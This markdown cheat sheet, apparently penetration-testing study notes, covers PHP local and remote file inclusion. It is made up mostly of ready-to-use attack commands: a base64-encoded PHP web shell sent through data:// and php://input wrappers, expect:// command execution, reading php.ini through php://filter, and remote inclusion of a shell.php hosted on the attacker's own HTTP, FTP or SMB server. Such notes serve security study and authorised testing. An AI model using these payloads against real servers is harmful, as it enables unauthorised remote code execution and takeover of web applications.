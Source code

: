 ## PHP wrappers

- Data wrapper
    - only available to use if the (allow_url_include) setting is enabled in the PHP configurations
    - Checking PHP Configurations
        - (/etc/php/X.Y/apache2/php.ini) for Apache or at (/etc/php/X.Y/fpm/php.ini) for Nginx, where X.Y is your install PHP version
        - `curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"`
        - `echo ‘base64code’ | base64 -d | grep allow_url_include`
    - `echo '<?php system($_GET["cmd"]); ?>' | base64`
    - `data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id`
    - `data://text/plain;base64,data&cmd=<command>`
    - `curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid`
- Remote Code Execution
    - `echo '<?php system($_GET["cmd"]); ?>' | base64`
- Input
    - POST parameter
    - payload as post data command as GET
    - `curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid`
    - Note: To pass our command as a GET request, we need the vulnerable function to also accept GET request (i.e. use $_REQUEST). If it only accepts POST requests, then we can put our command directly in our PHP code, instead of a dynamic web shell (e.g. <\?php system('id')?>)
- Expect
    - manually installed and enabled on the back-end server
    - not allow_url_include earlier, but we'd grep for expect instead
    - `curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"`

## Remote File Inclusion

- PHP would require the allow_url_include setting to be enabled
- Using Local URL `http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1:80/index.php`
- Remote Code Execution with RFI
    - `echo '<?php system($_GET["cmd"]); ?>' > shell.php`
    - HTTP `sudo python3 -m http.server <LISTENING_PORT>`
        - `http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id`
    - FTP `sudo python -m pyftpdlib -p 21`
        - `http://<SERVER_IP>:<PORT>/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id`
        - If php requires authentication `curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'`1
    - SMB
        - If the vulnerable web application is hosted on a Windows server (which we can tell from the server version in the HTTP response headers), then we do not need the allow_url_include setting to be enabled for RFI exploitation, as we can utilize the SMB protocol for the remote file inclusion. This is because Windows treats files on remote SMB servers as normal files, which can be referenced directly with a UNC path.
        - `impacket-smbserver -smb2support share $(pwd)`
        - Now, we can include our script by using a UNC path (e.g. \\<OUR_IP>\share\shell.php), and specify the command with (&cmd=whoami) as we did earlier:
        - `http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami`
